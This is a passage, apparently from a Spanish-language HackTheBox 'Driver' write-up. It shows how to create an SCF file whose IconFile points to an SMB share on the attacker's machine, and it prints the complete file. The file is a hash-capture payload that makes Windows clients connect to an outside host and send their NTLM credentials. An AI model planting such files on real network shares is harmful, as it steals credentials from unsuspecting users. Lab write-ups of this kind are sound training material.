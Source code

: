 ![](/assets/img/HackTheBox/Driver/scf.png)

Bueno vamos crear un archivo `SCF` 

La idea es decirle que el icono del archivo, quiero que me lo carges de un recurso compartido a nivel de red que esta en mi maquina, a un recurso a nivel de red que voy a llamar `smbFolder` y quiero que me carges un icono que se llama `pentestlab.ico` (Que no tiene porque existir).

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
![](/assets/img/HackTheBox/Driver/scffile.png)

